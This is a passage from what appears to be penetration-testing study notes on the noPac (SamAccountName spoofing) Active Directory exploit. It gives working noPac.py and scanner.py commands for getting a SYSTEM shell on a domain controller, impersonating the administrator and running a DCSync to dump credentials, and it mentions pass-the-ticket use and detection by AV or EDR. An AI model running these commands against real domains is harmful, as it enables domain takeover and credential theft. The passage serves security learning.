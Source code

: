 > We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Also, `RunAs` can only be used in a elevated PowerShell terminal.
{: .prompt-alert}

## Bleeding Edge Vulnerabilities 

### NoPac (SamAccountName Spoofing)

The [Sam\_The\_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), called as **noPac** or **SamAccountName Spoofing**. This vulnerability are contend in two CVEs: [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287). 

| **42278**   | **42287**    |
|--------------- | --------------- |
| bypass vulnerability with the SAM | vulnerability within the Kerberos PAC in ADDS |

This exploit consist in being able to change the **SamAccountName** of a computer account to that of a DC. Authenticated users can add up to tem compuerts to domain. When doing it, we change the name of the new host to macht the DC's SamAccountName. We must request a tickets to Kerberos, causing the service to issue a ticket under the DC?s name instead of the new name. We will have accesss as that service and provided with SYSTEM shell in the DC. [Here](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware) are a better explanation.

this [tool](https://github.com/Ridter/noPac) can be helpful while doing it. Be sure that Impacket is installed in order to work. Cloned the repo and use the **scanner.py** and **noPac.py** to gain the shell. If the scanner identifies the DC as vulnerable we will notice the **ms-DS-MachineAccountQuota** set to 10. IF it is set to 0 the attack won't success. This is a protection against some AD attacks.
```console
zero@pio$ sudo python3 scanner.py <DOMAIN>.local/<USER>:<PASSWORD> -dc-ip <DC IP> -use-ldap
```

This attack could be *noisy* and be blocked by AV or EDR:
```console
zero@pio$ sudo python3 noPac.py <DOMAIN>.LOCAL/<USER>:<PASSWORD> -dc-ip <DC IP>  -dc-host <HOST> -shell --impersonate administrator -use-ldap
```

Using [smbexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py) a semi-interactive shell will spawn. It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use the ccache file to perform a *pass-the-ticket* attack, like DCSync. Also, the flag `-dump` will perform a DCSync using **secretsdump.py** (make sure to remove the ccache file created after):
```console
zero@pio$ sudo python3 noPac.py <DOMAIN>.LOCAL/<USER>:<PASSWORD> -dc-ip <DC IP>  -dc-host <DC HOST> --impersonate administrator -use-ldap -dump -just-dc-user <DOMAIN>/administrator
```

If Windows Defender (or another AV/EDR) is enabled, any command in the shell may fail. Using **smbexec.py** will create a service called **BTOBTO**, any command sent will go to **execute.bat**. With each new command, a new batch script will be created, executed and deleted.
